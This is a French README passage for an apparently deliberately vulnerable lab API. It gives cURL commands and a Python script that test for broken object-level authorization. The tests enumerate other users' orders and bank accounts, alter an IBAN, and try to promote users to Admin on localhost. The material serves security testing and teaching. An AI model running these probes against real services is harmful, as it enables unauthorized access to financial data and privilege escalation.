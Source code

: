 ## 📊 Tests de détection

### Test manuel avec cURL
```bash
# Tester l'accès à une commande qui ne nous appartient pas
curl -X GET "http://localhost:5000/api/bola/orders/1" \
     -H "Authorization: Bearer [TOKEN]"

# Tenter de modifier un compte bancaire
curl -X PUT "http://localhost:5000/api/bola/bank-accounts/5/iban" \
     -H "Authorization: Bearer [TOKEN]" \
     -H "Content-Type: application/json" \
     -d '"FR1420041010050500013M02606"'
```

### Script de test automatisé
```python
import requests
import json

def test_bola_vulnerability(base_url, token):
    headers = {"Authorization": f"Bearer {token}"}
    vulnerabilities = []
    
    # Test 1: Énumération des commandes
    print("Test 1: Énumération des commandes...")
    for order_id in range(1, 20):
        response = requests.get(f"{base_url}/api/bola/orders/{order_id}", headers=headers)
        if response.status_code == 200:
            vulnerabilities.append(f"Accès non autorisé à la commande {order_id}")
    
    # Test 2: Accès aux comptes bancaires
    print("Test 2: Accès aux comptes bancaires...")
    for account_id in range(1, 20):
        response = requests.get(f"{base_url}/api/bola/bank-accounts/{account_id}", headers=headers)
        if response.status_code == 200:
            vulnerabilities.append(f"Accès non autorisé au compte bancaire {account_id}")
    
    # Test 3: Modification de rôle
    print("Test 3: Tentative de modification de rôle...")
    for user_id in range(1, 10):
        response = requests.put(
            f"{base_url}/api/bola/users/{user_id}/role",
            headers={**headers, "Content-Type": "application/json"},
            data=json.dumps({"newRole": "Admin"})
        )
        if response.status_code == 200:
            vulnerabilities.append(f"Modification de rôle réussie pour l'utilisateur {user_id}")
    
    return vulnerabilities
```
